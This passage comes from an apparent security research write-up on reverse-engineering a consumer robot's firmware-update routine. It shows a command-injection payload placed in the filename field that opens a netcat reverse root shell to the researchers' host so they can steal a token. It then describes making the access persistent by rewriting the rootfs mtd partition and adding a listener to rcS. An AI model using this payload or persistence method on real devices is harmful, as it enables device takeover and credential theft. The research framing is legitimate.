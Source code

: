 ```server-a = b\ndomain = 10.42.0.1\ncccccc```
<p style="text-align:center;"><img src="/assets/enabot_part3/update_file.png" alt="ebocontrol" style="height: 80%; width:80%;"/></p>

It first makes sure that the url contains ```https://```. Then it reads the url until the first `/` character. It then uses that URL and makes a `GET` request to it.

<p style="text-align:center;"><img src="/assets/enabot_part3/get_response.png" alt="ebocontrol" style="height: 80%; width:80%;"/></p>


In the response from our server it checks for 
`HTTP/1.1 200 OK`
`Content-Length: `
`md5_token=`
`filename=`
`.tar` or `.zip`
and `\r\n\r\n`

Once it validates the response contains all these parameters, it will open a file with the given filename for writing and then keep receiving the data of the upgrade file in tcp packets. Once it stops receiving data or doesn't receive data it will close the file, and that's when we noticed a different spot for command injection.

<p style="text-align:center;"><img src="/assets/enabot_part3/command_injection.png" alt="ebocontrol" style="height: 80%; width:80%;"/></p>


To validate the file was transferred successfully, it calculates the md5sum and validates it matches the ```md5_token=``` value we sent in the GET response.

To do the command injection in our `GET` response we send this as the filename

```filename=file;nc 10.42.0.1 1234 -e sh;#.tar```

After the snprintf, the command will be this

```md5sum /var/avi/mmc0/upgrade/remote/file;nc 10.42.0.1 1234 -e sh;#.tar```

First the md5sum will fail. Then it will run the netcat command while we have our port open and waiting for incoming connectinons. We'll connect over netcat, steal the token, and exit out. Then we use the ```#``` to comment out the rest of the command and we have .tar at the end so the filename still has .tar in it for when it checks for the .tar extension.

When an upgrade fails, the device reboots and still has the original firmware on it. However, since we have a reverse root shell, we can simply overwrite the [mtd blocks](https://www.oreilly.com/library/view/mastering-embedded-linux/9781787283282/64271306-bd52-47d8-8118-6b618630d307.xhtml) on the device and have persistent access to the device across reboots. We can modify the [rcS](https://www.thegeekyway.com/whats-important-init-d-directory-linux/) file to start a netcat listener on boot.

We did a bit more reversing and figured out what happens when it does a firmware upgrade. When it receives the tar file, it untars it and it contains a bunch of squash filesystems. Each filesystem is then reprogrammed onto a `mtd` partition in /dev. `mtd` partitions are typically used for embedded devices with flash memory. So when we overwrite these it is persistent. We defined a custom struct in binary ninja and it shows nicely which mtd block lines up with which filesystem.

<p style="text-align:center;"><img src="/assets/enabot_part3/squashfs.png" alt="ebocontrol" style="height: 70%; width:70%;"/></p>


Since we want to modify the rcS file, we only care about the rootfs filesystem since it will contain that. Looking at the structures, we see that we'd have to write to ```/dev/mtd2``` We can now add an extra line into the rcS, and squashfs the filesystem back into a format we can program onto the mtd block.
```